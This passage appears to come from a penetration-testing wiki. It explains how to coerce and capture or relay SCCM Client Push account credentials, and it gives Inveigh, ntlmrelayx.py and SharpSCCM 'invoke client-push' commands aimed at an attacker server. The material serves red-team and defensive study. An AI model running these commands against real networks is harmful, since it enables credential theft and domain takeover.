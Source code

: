 <figure><img src="../../../.gitbook/assets/SharpSCCM-get-secrets-command.png" alt=""><figcaption></figcaption></figure>

### Authentication Coercion via Client Push Installation

{% hint style="info" %}
In some case, the "Client Push Accounts"  could even be part of the Domain Admins group, leading to a complete takeover of the domain.
{% endhint %}

The client push installation can be triggered forcefully or - if you're lucky - your compromised machine might not have the SCCM client installed, which mean you could capture the client push installation as it occurs.

**Option 1: Wait for Client Push Installation**

```powershell
# Credential capture using Inveigh 
Inveigh.exe
```

**Option 2: Forcefully "coerce" the Client Push Installation**

{% hint style="danger" %}
Important note: You want to read [this blog](https://posts.specterops.io/coercing-ntlm-authentication-from-sccm-e6e23ea8260a) post before you continue this route, as this attack might leave traces behind and might junk up the SCCM environment.
{% endhint %}

**Step 1: Prepare coercion receiver**

Note that you could either capture & crack received credentials or relay them to a suitable target system (or both).

```sh
# On Linux
## Relay using ntlmrelayx.py
ntlmrelayx.py -smb2support -socks -ts -ip 10.250.2.100 -t 10.250.2.179
```
```powershell
# On Windows
## Credential capture using Inveigh 
Inveigh.exe
```

**Step 2: Trigger Client-Push Installation**

```PowerShell
# If admin access over Management Point (MP)
SharpSCCM.exe invoke client-push -t <AttackerServer> --as-admin

# If not MP admin
SharpSCCM.exe invoke client-push -t <AttackerServer>
```

**Step 3: Cleanup**

If you run the above SharpSCCM command with the `--as-admin` parameter (cause you have admin privileges over the MP), there's nothing to do. Otherwise get in contact with the administrator of the SCCM system you just messed up and provide the name or IP of the attacker server you provided in the `-t <AttackerServer>` parameter. This is the device name that will appear in SCCM.
